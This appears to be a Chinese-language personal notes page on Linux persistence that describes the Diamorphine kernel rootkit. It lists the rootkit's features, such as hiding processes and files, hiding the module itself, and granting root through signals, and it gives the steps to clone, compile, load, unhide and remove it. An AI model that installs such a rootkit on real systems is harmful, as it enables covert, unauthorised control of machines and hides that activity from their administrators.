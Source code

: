 # Linux权限维持


## Diamorphine

> [m0nad/Diamorphine：适用于 Linux 内核 2.6.x/3.x/4.x/5.x/6.x（x86/x86_64 和 ARM64）的 LKM rootkit） --- m0nad/Diamorphine: LKM rootkit for Linux Kernels 2.6.x/3.x/4.x/5.x/6.x (x86/x86_64 and ARM64) (github.com)](https://github.com/m0nad/Diamorphine)

Diamorphine 是适用于 Linux 内核 2.6.x/3.x/4.x/5.x/6.x（x86/x86_64 和 ARM64）的 LKM rootkit。

----

### Feature

- 加载后，模块开始不可见
- 通过发送信号31来隐藏/取消隐藏任何进程
- 发送信号 63（到任何 pid）使模块变得可见（不可见）
- 发送信号 64（到任何 pid）使给定用户成为 root
- 以 MAGIC_PREFIX 开头的文件或目录变得不可见

---

### 安装

验证内核是否为 `2.6.x/3.x/4.x/5.x`:

```bash
uname -r
```

![image-20240925181143578](http://cdn.ayusummer233.top/DailyNotes/202409251811742.png)

Clone 存储库:

```bash
git clone https://github.com/m0nad/Diamorphine
```

![image-20240925184936216](http://cdn.ayusummer233.top/DailyNotes/202409251849295.png)

编译:

```bash
cd Diamorphine
make
```

![image-20240925184958630](http://cdn.ayusummer233.top/DailyNotes/202409251849675.png)

以 root 身份加载模块

```bash
su root
insmod diamorphine.ko
```

![image-20240925185037670](http://cdn.ayusummer233.top/DailyNotes/202409251850709.png)

---

#### 提权

发送信号 64（到任何 pid）使给定用户成为 root

![image-20240925185226264](http://cdn.ayusummer233.top/DailyNotes/202409251852318.png)

---

### 卸载

模块开始时不可见，所以要删除此模块的话需要先使其可见

```bash
kill -63 0
```

然后删除模块（以root身份）

```bash
rmmod diamorphine
```



